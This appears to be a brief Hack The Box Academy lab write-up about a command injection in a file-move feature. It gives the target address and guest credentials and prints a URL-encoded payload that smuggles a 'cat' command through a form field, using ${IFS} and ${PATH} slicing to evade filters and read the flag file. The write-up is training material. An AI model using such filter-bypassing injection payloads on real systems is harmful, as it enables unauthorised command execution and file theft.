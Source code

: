 # IP: 94.237.50.202:41866
# Auth: guest/guest
We can see the injection is in the move file
![Move](../Img/skillcomand.png)

![BURP](../Img/skillcomadn2.png)
And in the section form we must to change for us payload:
`%3bc'a't${IFS}${PATH:0:1}..${PATH:0:1}..${PATH:0:1}..${PATH: 0:1}..${PATH:0:1}flag.txt;`
![flag](../Img/skillflag.png)

https://academy.hackthebox.com/achievement/349590/109
